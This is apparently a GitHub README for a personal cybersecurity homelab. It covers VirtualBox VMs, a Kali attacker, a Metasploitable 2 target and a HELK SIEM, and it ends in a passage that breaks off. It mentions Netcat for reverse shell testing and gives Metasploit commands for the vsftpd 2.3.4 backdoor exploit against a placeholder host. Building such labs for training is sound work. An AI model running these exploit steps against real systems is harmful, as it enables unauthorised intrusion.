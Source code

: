 # 🏠 Cybersecurity Homelab Project

This is a self-hosted cybersecurity homelab built to simulate offensive and defensive scenarios in a safe, isolated environment using VirtualBox and open-source tools. It demonstrates practical skills in system administration, red/blue teaming, network traffic monitoring, and log analysis.

---

## 🔧 Project Evolution

Originally, the lab started with **Security Onion** and a separate **Analyst VM** for packet analysis and dashboards. However, to gain more flexibility and transparency, I switched to **HELK**, which integrates seamlessly with **Elasticsearch** and **Kibana** to provide a modular SIEM platform for threat detection and analysis.

---

## 💻 Current Lab Setup

### Host Machine
- Device: 2019 MacBook Pro  
- OS: macOS Sequoia 15.5  
- Specs: 2.4 GHz Quad-Core Intel Core i5, 8 GB RAM, 250 GB SSD  
- Virtualization: VirtualBox (latest version)  

### Virtual Machines
- Kali Linux (attacker) — Metasploit, Nmap, Netcat  
- Metasploitable 2 (vulnerable target) — For exploitation practice  
- HELK Server with Elasticsearch and Kibana — For detection and monitoring 

### Network Topology
- Adapter 1 (Host-only): Internal VM communication  
- Adapter 2 (NAT): Internet access for Kali and HELK updates  
- All traffic between attacker and target monitored by Wazuh  

---

## ⚙️ Tools & Technologies

### Offensive
- Metasploit Framework  
- Nmap (host discovery and vulnerability scanning)  
- Netcat (reverse shell testing)  

### Defensive
- HELK (SIEM agent and manager)  
- Filebeat (log shipping to Elasticsearch)  
- Elasticsearch + Kibana (search and visualization)  
- Custom Bash scripts (connection monitoring)  

---

## 🔍 Sample Attack Workflow

### Exploit: vsftpd 2.3.4 Backdoor
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run
